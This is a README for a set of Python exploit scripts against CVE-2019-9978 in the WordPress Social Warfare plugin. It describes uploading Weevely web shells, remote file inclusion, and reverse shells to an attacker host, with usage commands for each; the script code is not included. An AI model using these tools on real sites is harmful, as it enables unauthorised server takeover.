 # CVE-2019-9978
## RCE in Social Warfare Plugin ( <=3.5.2 )  
## Exploit Scripts
Scripts written with the help of Rin <3.  
Her Github: https://github.com/Scooter480

### social-warfare-weeve.py (PTY/Weevely/can upgrade)
Makes use of weevely go generate a weevely payload, upload to the target, and then automatically connects to it.
#### Usage
```bash
python3 social-warfare-weeve.py http://example.com/wordpress/ lhost
```

### social-warfare-pty.py (PTY/Python Payload/can't upgrade)
Generates a python payload that is then uploaded to the targeted and uses weevely to execute it, establishing a reverse shell connection back.
#### Usage
```bash
python3 social-warfare-pty.py http://example.com/wordpress/ lhost
```

### social-warfare-rce.py (old non-TTY/can't upgrade)
Setups an http server and serves as an interface to execute arbitrary commands via payload.txt and RFI/RCE vuln.  
#### Usage
```bash
python3 social-warefare-rce.py http://example.com/wordpress/ lhost
```

### social-warfare-rev.py (Basic non-TTY rev shell/can upgrade to TTY)
Executes a reverse shell payload and spawns a netcat listener to catch the shell.
#### Usage
```bash
python3 social-warefare-rev.py http://example.com/wordpress/ lhost lport
```
